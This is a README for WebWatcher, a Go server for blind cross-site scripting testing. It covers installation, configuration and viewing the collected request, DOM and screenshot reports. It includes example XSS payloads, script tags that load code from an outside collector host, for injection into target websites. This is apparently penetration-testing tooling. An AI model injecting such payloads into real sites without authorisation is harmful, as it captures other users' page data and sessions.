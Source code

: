 # WebWatcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
go install github.com/pichik/webwatcher@latest
```
2. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
```

3. Setup `.wwconfig` and add it to your home directory.  
4. Make sure that `assets` and `templates` are in the directory specified in config.  


## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](_img/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
Set `"CollectorPath":"examplepath"` in `.wwconfig`  
Set `.js` extension with payload `alert(1)` in `assets/extensions.json`  
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/examplepath.js></script>`  

### Collecting data from blind XSS  
You can find detailed report for your XSS, with DOM and Screenshort.  
These request will be sent to slack, if specified in config.
`<script src=https://example.com></script>`  
![blind xss](_img/blindxss.png)  



